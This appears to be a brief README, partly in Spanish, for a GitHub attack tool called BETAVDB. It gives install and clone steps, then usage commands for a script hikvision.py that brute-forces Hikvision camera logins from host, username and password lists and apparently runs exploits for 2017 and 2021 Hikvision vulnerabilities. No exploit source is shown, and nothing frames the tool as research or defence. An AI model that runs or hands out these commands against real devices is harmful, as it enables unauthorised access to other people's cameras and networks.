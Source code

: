 # BETAVDB

###
```bash

pip install httpx requests colorama loguru pycryptodome
```
```bash 
cd storage/download/
```
```bash
git clone https://github.com/SlickxMercy/BETAVDB
```
#### Fuerza bruta 
```bash
cd storage/download/BETAVDB 
```
```bash
python hikvision.py scan -H host.txt -u user.txt -p pass.txt -P 80 -t 15 -c 100
```
```
python hikvision.py hikvision
```
```
python hikvision.py cve2017
```
```
python hikvision.py cve2021
```
